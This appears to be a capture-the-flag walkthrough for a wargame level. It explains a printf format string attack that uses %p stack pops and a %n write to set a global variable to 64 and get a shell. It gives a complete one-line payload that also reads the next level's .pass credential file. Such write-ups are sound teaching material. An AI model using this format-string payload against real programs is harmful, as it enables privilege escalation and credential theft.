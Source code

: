 # Walkthrough

## Disassembling the executable

see source.c

## Exploit

In order to execute /bin/sh as level4, the global variable m must be equal to 64.

We modified the value of m using a format string attack.

Using the buffer p, we are going to submit data that will be evaluated as instructions.
In our payload, we exploit the format string of printf to pop the stack until we reach the address of our payload, printf resolves the %n by setting the value hold at the first address at the top of the stack (here a pointer to the global variable m) as the length of its string. 

```
(python -c "print('\x8c\x98\x04\x08 %p %p %p abcdefghijklmnopqrstuvwxyz12345%n')"; echo 'cat /home/user/level4/.pass
') | ./level3
```
